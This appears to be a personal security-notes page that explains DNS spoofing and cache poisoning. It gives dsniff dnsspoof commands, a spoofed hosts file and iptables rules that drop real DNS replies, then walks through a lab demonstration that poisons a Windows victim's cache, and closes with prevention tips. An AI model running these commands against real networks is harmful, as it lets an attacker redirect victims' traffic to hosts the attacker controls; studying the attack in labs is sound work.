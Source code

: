 ```yaml
---
description: >-
  Domain Name System (DNS) spoofing involves sending fake and malicious DNS
  query to a target machine, causing its DNS cache to be poisoned.
---
```


# DNS spoof/poison

This attack exploits the fact that DNS is <mark style="color:red;">**not**</mark> encrypted by default, which makes it vulnerable to sniffing and modifications.

On a local network, DNS spoofing can be used as an additional vector of attack after the initial man-in-the-middle position have been established. A particular use case of DNS spoofing would be to further escalate the attack, for example to allow resolution of domain/host names that are previously non-existent - but still seemingly legitimate.&#x20;

This could be done for subdomains of trusted websites. For example, lets assume a trusted website that a user visits often:  <mark style="color:green;">test.gohxiangzheng.com</mark>. If a new subdomain: <mark style="color:red;">trustme.gohxiangzheng.com</mark>, with the same root domain name (<mark style="color:green;">gohxiangzheng.com</mark>) is encountered by the user, it is more likely to be trusted. The caveat is that the fake subdomain mentioned above does not need to actually exist, and this technique would work as long as the malicious DNS server has means of resolving it.&#x20;

Suppose the user's local DNS cache has an existing record for <mark style="color:green;">test.gohxiangzheng.com</mark>. However, it does not apply for the new fake subdomain, and the machine would still be required to perform a DNS lookup. If a MitM situation has been established by the attacker between the user and gateway, the DNS query would be sent to the malicious server instead, which would poison the user's cache with a fake entry pointing to the attacker controlled IP address.

In summary, a DNS spoofing/poisoning attack allows the following to happen:

1. DNS resolution of a previously non-existent, but seemingly legitimate host name
2. Bypass of the user's local DNS cache

## dSniff's dnsspoof tool

### Installation

```bash
$ sudo apt install dsniff
```

### Usage

Load a DNS hosts file with entries

```bash
$ echo "<attacker_ip_addr> *.example.com" > path/to/hostsfile

$ cat path/to/hostsfile
<attacker_ip_addr> *.example.com
```

Run a DNS server on a particular interface, with given hosts file content at path

```bash
$ sudo dnsspoof -i <iface> -f path/to/hostsfile
```

Example: Run a DNS server on the interface **eth0** to resolve queries for any subdomain of _<mark style="color:green;">**gohxiangzheng.com**</mark>_ to the IP address <mark style="color:green;">**10.10.10.10**</mark> - hosts file name is **hosts.spoof**

```bash
# View content of hosts file
$ cat hosts.spoof
10.10.10.10 *.gohxiangzheng.com 

# Run DNS server
$ sudo dnsspoof -i eth0 -f hosts.spoof
dnsspoof: listening on eth0 [udp dst port 53 and not src ...]
```

_<mark style="background-color:red;">NOTE</mark>_: Ensure that port forwarding is disabled on the attacker machine (seems to be disabled by default on Kali)

* This is to prevent the machine from forwarding the DNS query to the actual gateway, which might potentially cause a race condition, such that the victim receive the DNS reply from the actual gateway first, affecting the effectiveness of the attack

```bash
$ sudo sysctl -w net.ipv4.ip_forward=0
```

* To verify if its enabled/disabled (returns 0 if disabled, else 1)

```bash
$ cat /proc/sys/net/ipv4/ip_forward
```

#### Alternative method

However, if IP forwarding is required on the attacker machine, a direct approach can be taken instead:

* Drop all DNS queries (UDP port 53) destined for the actual gateway address

```bash
$ sudo iptables -A FORWARD -p udp --dport 53 -d <gateway_addr> -j DROP
```

* Or simply drop all DNS queries received, and prevent it from being forwarded

```bash
$ sudo iptables -A FORWARD -p udp --dport 53 -j DROP
```

{% embed url="https://security.stackexchange.com/a/277584/312485" %}

## Demonstration

#### Assume the following parameters:

**Victim machine**

* <mark style="color:yellow;">**Windows**</mark>
* 10.0.2.4

#### Attacker machine

* **Kali Linux**&#x20;
* 10.0.2.5

#### Actual gateway&#x20;

* 10.0.2.1

#### <mark style="color:red;">Attacker machine</mark>: Run a malicious DNS server (assume a MitM position has been established)

<pre class="language-bash"><code class="lang-bash">$ cat hosts.spoof
10.0.2.5 *.gohxiangzheng.com

$ sudo dnsspoof -i eth0 -f hosts.spoof
dnsspoof: listening on eth0 [udp dst port 53 and not src 10.0.2.5]
<strong>
</strong># Prevent DNS traffic from being forwarded
$ sudo iptables -A FORWARD -p udp --dport 53 -d 10.0.2.1 -j DROP
</code></pre>

#### <mark style="color:green;">Victim machine</mark>: Ping a subdomain of the target root domain (<mark style="color:red;">trustme.</mark><mark style="color:red;">**gohxiangzheng.com**</mark>**)**

* This would elicit a DNS lookup for the requested host name

```bash
$ ping trustme.gohxiangzheng.com
...
```

#### <mark style="color:red;">Attacker machine</mark>: DNS query display&#x20;

* Following the ping request from the victim machine, the DNS query would be received by the attacker machine and the following would output from the _**dnsspoof**_ command

```bash
10.0.2.4.<random_port> > 10.0.2.1.53:  ... A? trustme.gohxiangzheng.com
```

* &#x20;A Wireshark window on the attacker machine, with the filter <mark style="color:blue;">**dns && ip.addr == 10.0.2.4**</mark> would display the DNS query from the victim machine
* This causes the host name _<mark style="color:green;">**trustme.gohxiangzheng.com**</mark>_ to be resolved to the IP address <mark style="color:green;">**10.0.2.5**</mark> - an actual DNS server would not resolve it, as it does not actually exists

#### <mark style="color:green;">Victim machine</mark>: Poisoning of the victim's local DNS cache

* Consequently, the DNS cache would be poisoned with a false entry

### View & flush DNS cache on <mark style="color:yellow;">Windows</mark>

#### To view the local DNS cache&#x20;

```powershell
$ ipconfig /displaydns

trustme.gohxiangzheng.com
----------------------------------------
Record Name . . . . . : trustme.gohxiangzheng.com
Record Type . . . . . : 1
Time To Live  . . . . : 36
Data Length . . . . . : 4
Section . . . . . . . : Answer
A (Host) Record . . . : 10.0.2.5
```

#### To flush the local DNS cache

```powershell
$ ipconfig /flushdns
```

## <mark style="color:orange;">Prevention methods</mark>

#### 1. Use secure DNS

* Virtual Private Network (VPN) providers
* Third-party security software
* Browser built-in secure DNS

This can be achieved with DNSSEC, DNS over HTTPS (DoH), etc. This allows DNS traffic to be encrypted, which prevents sniffing and malicious modifications of data.



{% embed url="https://www.kali.org/tools/dsniff/" %}

{% embed url="https://www.mankier.com/5/hosts" %}
DNS hosts file format
{% endembed %}

